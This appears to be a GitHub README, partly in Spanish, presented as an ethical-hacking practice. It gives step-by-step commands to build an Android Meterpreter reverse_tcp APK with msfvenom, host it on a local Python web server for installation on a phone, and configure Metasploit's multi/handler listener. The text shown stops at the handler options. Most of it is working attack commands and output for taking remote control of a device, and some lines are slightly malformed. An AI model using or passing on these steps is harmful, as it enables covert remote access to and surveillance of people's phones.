 # Ethical-Hacking

In these practices we will put in the form of code and a step-by-step explanation of each practice.

## First Practice

### msfvenom apk

In this first practice we will use msfvenom to create an application which will aim to control an Android device for ethical purposes.


#### Escalate privileges
**┌──(kali㉿CarlosSantos)-[~]**
**└─$** `sudo -s`


#### We check what our hostname is
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `hostname -I`



 >[!INFO]
 >
 >If you do not have kali metasploit installed on your system, you must install it `sudo apt install metasploit-framework`


#### We use msfvenom
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfvenom -p android/meterpreter/reverse_tcp LHOST=172.27.4.239 LPORT=443 -o practice.apk`

1. *msfvenom: Es el nombre del comando que invoca la herramienta msfvenom. **-p***

1. *`android/meterpreter/reverse_tcp`: Specifies the payload to use in the APK file. In this case, the `android/meterpreter/reverse_tcp` payload is used, which allows establishing a reverse TCP connection on Android devices.*

1. *LHOST=172.27.4.239: Specifies the IP address of the host (the machine running the server) to which the Metasploit payload will connect. In this case, the IP address is 172.27.4.239*

1. *LPORT=443: Specifies the port number on the host that the Metasploit payload will connect to. In this case, the port is 443, which is commonly used for secure HTTPS connections.*

1. **-o** *practice.apk: Especifica el nombre del archivo de salida, es decir, el nombre del archivo APK malicioso que se generará. En este caso, el archivo se llamará practice.apk.*


#### We create a local server with python3
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `python3 -m http.server 80`



   >[!IMPORTANT]
   >
   >Remember to connect to the server with your android, in this case they must be on the same network since the server is local, just like our attack.
   >Install practice.apk in your android


#### Running the msfconsole
**┌──(root㉿CarlosSantos)-[/home/kali]**
**└─#** `msfconsole`

1. *Running the msfconsole command will open an interactive console where you can use a wide range of Metasploit functionality. From this console, you can load and configure modules, select and configure exploits, scan and enumerate systems, launch attacks, and perform penetration testing on networks and systems.*

#### Running the /multi/handler
**msf6 >**  `use /multi/handler`
**[*] Using configured payload generic/shell_reverse_tcp msf6 exploit(multi/handler) >**

1. *This command is used to select the multi/handler module, which is a special module in Metasploit that is used to handle reverse shell or meterpreter connections. That is, it is the module that listens to and handles incoming connections from payloads that have been executed on the target systems.*


#### set payload
**msf6 exploit(multi/handler) >** `set payload android/meterpreter reverse_tcp`
**payload => android/meterpreter/reverse_tcp**

1. *The set payload android/meterpreter/reverse_tcp command is used in the msfconsole command line interface of the Metasploit Framework.*

**This command configures the payload to be used in the currently selected module. In this case, the payload is android/meterpreter/reverse_tcp.*

**Here is the meaning of each part of the payload:*

**android: Indicates that the payload is designed for Android systems.*
**meterpreter: It is an advanced and versatile Metasploit shell that provides a number of features, such as the ability to migrate between different processes, load scripts and extensions at runtime, and capture keyboard and screen input.reverse_tcp: This is a type of connection in which the target machine establishes the connection back to the attacker (i.e. "reverse"), which can be useful for bypassing certain types of firewalls.*


####

**msf6 exploit(multi/handler) >** `show options`

*Module options (exploit/multi/handler):*

   **Name**  **Current** **Setting**  **Required**  **Description**
   ----  ---------------  --------  -----------


**Payload options (android/meterpreter/reverse_tcp):**

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface
                                      may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.



* *This command displays the options available for the currently selected module. These options can include details such as the IP address and port of the target host, the IP address and port of the local host, credentials to authenticate to the target host, and more.*

